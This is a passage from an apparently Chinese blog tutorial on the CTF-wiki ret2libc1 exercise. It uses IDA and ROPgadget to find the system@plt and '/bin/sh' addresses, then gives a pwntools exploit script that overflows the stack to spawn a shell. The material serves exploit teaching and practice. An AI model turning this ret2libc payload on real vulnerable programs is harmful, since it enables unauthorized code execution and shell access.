 

<img src="https://i-blog.csdnimg.cn/blog_migrate/0afe35d6bbcc41106ecc1a8b8fcbfd0c.png" alt="" style="max-height:55px; box-sizing:content-box;" />


### 查找system.plt

直接看



<img src="https://i-blog.csdnimg.cn/blog_migrate/62fde00069b1dd472c2a0ac6ee56788d.png" alt="" style="max-height:65px; box-sizing:content-box;" />


### 查找/bin/sh

#### 1.ida



<img src="https://i-blog.csdnimg.cn/blog_migrate/5cdc1e8f5c1e87f521e759e92d9ec385.png" alt="" style="max-height:104px; box-sizing:content-box;" />




#### 2.ROPgadget

```cobol
ROPgadget --binary ret2libc1  --string '/bin/sh'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2af76f4d9291b9921a634944e0c3437d.png" alt="" style="max-height:144px; box-sizing:content-box;" />


得到地址

我们可以开始编写exp

### exp

```cobol
from pwn import *
p=process('./ret2libc1')
sys_add=0x08048460
bin_add=0x08048720
payload=flat(['A'*112,sys_add,1234,bin_add])
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7bfd193e7497a8a8942ea7312a3b6a72.png" alt="" style="max-height:228px; box-sizing:content-box;" />


## 例题2

wiki里的ret2libc2
